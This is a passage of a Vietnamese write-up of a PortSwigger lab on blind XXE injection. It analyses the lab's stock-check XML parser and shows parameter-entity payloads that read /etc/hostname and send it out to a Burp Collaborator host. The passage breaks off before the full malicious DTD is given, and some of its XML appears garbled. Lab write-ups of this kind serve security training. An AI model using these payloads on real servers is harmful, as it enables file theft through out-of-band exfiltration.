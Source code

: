  [image](https://hackmd.io/_uploads/SJyfdHgha.png)

mục đích của chúng ta đã hoàn thành và mình đã solve được lab này

 [image](https://hackmd.io/_uploads/SyTaPHg36.png)

## 5. Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

link: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration

### Đề bài

 [image](https://hackmd.io/_uploads/H1VXTHgnT.png)

### Phân tích

- Chức năng "Check stock" của trang web phân tích cú pháp dữ liệu XML nhưng không trả về bất kỳ kết quả nào trong giao diện. Để hoàn thành bài lab, chúng ta cần truy xuất dữ liệu tệp /etc/hostname và submit giá trị hostname. Lưu ý rằng với các external DTD chỉ có thể deploy trên exploit server được cung cấp bởi bài lab và Burp Collaborator server.

- Ký tự `&` không được phép sử dụng nên chúng ta không thể định nghĩa các entities thông thường:

 [image](https://hackmd.io/_uploads/B1gv0rgnT.png)

Có thể sử dụng parameter entity thay thế, payload kiểm tra DNS lookup với Burp Collaborator Client:

```xml 
< DOCTYPE abc [ < ENTITY % xxe SYSTEM "http://b6iu3bxnzgli3bu11nxef0ehe8k08p.oastify.com"> %xxe; ]>
```

 [image](https://hackmd.io/_uploads/rJknRrenT.png)

đợi 1 lúc chúng ta mới thấy response trả về
chứng tỏ web server đã truy cập vào đường link của chúng ta

- Dự đoán trang web chứa lỗ hổng Blind XXE injection tại chức năng Stock check

### Khai thác

- Chúng ta sẽ xây dựng một file DTD thực hiện các bước truy xuất nội dung tệp tin /etc/hostname hiển thị tại exploit server được cung cấp.
- Định nghĩa một parameter entity với tên file có giá trị là nội dung tệp tin `/etc/hostname`

```xml 
< DOCTYPE % file SYSTEM "file:///etc/hostname">
```

Định nghĩa một entity với tên exploit chứa một định nghĩa khác parameter entity với tên retrieve truy cập tới Burp Collaborator và gửi tham số data với tham chiếu `%file;`

```xml 
< ENTITY % exploit "< ENTITY % retrieve SYSTEM 'http://acqt9a3m5frh9a007m3dlzkgk7q0ep.oastify.com/?data=%file;'>">
```

Gọi các tham chiếu `%exploit;, %retrieve;`, cuối cùng chúng ta có nội dung file external DTD đầy đủ:
